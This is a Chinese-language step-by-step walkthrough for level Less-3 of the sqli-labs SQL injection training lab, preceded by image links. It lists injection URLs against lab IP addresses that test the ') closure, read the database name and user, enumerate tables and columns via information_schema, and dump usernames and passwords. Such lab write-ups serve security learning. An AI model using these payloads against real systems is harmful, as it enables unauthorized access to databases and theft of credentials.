






# Less - 03

---

# 通关教程

---

## 1、判断闭合

---

```http
http://127.0.0.1/sql1/Less-3/?id=1
http://127.0.0.1/sql1/Less-3/?id=1'
http://127.0.0.1/sql1/Less-3/?id=1')--+
```

​​

​​

## 2、查看当前数据库和用户

---

```http
http://192.168.225.132/sqli-labs/Less-3/?id=0') union select 1,database(),user()--+
```

​​

## 3、查看数据表

---

```http
http://192.168.225.132/sqli-labs/Less-3/?id=0') union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security')--+
```

​​

## 4、查看字段名

---

```http
http://192.168.225.132/sqli-labs/Less-3/?id=0') union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users')--+
```

​​

## 5、查看字段的值

---

```http
http://192.168.225.132/sqli-labs/Less-3/?id=0') union select 1,2,(select group_concat(username,password) from security.users)--+
```

​​

‍
